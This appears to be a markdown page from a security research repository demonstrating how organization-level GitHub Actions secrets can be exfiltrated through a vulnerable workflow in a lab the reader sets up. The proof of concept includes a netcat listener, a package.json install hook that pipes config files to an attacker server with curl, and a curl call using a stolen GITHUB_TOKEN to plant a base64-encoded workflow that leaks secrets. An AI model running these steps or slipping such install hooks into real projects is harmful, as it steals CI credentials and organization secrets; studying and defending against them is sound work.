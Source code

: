 # Exfiltration of organization level secrets

It is possible to exfiltrate [organization level secrets](https://docs.github.com/en/actions/security-guides/encrypted-secrets#creating-encrypted-secrets-for-an-organization) even if they are not referenced in the vulnerable repository. However, the access to the secrets should be granted to either all organization repositories (which is the default) or a selected set of repositories including the vulnerable repository.

One way to exfiltrate organization level secrets is to exfiltrate the `GITHUB_TOKEN` and create a new workflow which would reference and print the secrets. This workflow can be created in any branch of the repository. Finally, to actually exfiltrate the secrets one triggers the workflow.

## Example

### Environment setup

Run [`setup-org-level-secrets.sh`](../scripts/setup-org-level-secrets.sh) as the victim to create the `MYSECRET` organization level secret with the value of `1234567890` and the `org-level-secrets` repository with the vulnerable workflow.

> You'll need [gh](https://github.com/cli/cli) installed to execute the [`setup-org-level-secrets.sh`](../scripts/setup-org-level-secrets.sh) script

### Proof of concept

Perform the following steps as the attacker.

1. Open a publicly accessible port on a remote server (e.g. `nc -vlnk 0.0.0.0 1337`).
1. Fork the `org-level-secrets` repository.
1. Add the `scripts.install` key to the `package.json` file with the `find . -type f -name config | xargs cat | curl --data @- http://{IP}:1337` value replacing the `{IP}` placeholder with the public IP address of the remote server.
1. Open a pull request from the fork to the `org-level-secrets` repository.
1. Wait until the remote server recieves the request and base64-decode the `GITHUB_TOKEN` from it.
1. Run the following command replacing `{GITHUB_TOKEN}` and `{owner}` placeholders with the obtained `GITHUB_TOKEN` and the organization name respectively to create a new workflow.
    ```bash
    curl -X PUT -H "Accept: application/vnd.github.v3+json" -H "Authorization: Bearer {GITHUB_TOKEN}" https://api.github.com/repos/{owner}/org-level-secrets/contents/.github/workflows/exfiltrate.yml -d '{"message":"hey","content":"b246CiAgcHVsbF9yZXF1ZXN0X3RhcmdldDoKam9iczoKICBleGZpbHRyYXRlOgogICAgcnVucy1vbjogdWJ1bnR1LWxhdGVzdAogICAgc3RlcHM6CiAgICAgIC0gbmFtZTogZXhmaWx0cmF0ZQogICAgICAgIHJ1bjogfAogICAgICAgICAgZWNobyAiJHt7IHNlY3JldHMuTVlTRUNSRVQgfX0iIHwgYmFzZTY0IHwgYmFzZTY0"}'
    ```
1. Open another pull request from the to the `org-level-secrets` repository to trigger the workflow.
1. The double-base64-encoded `MYSECRET` secret should appear in workflow run logs.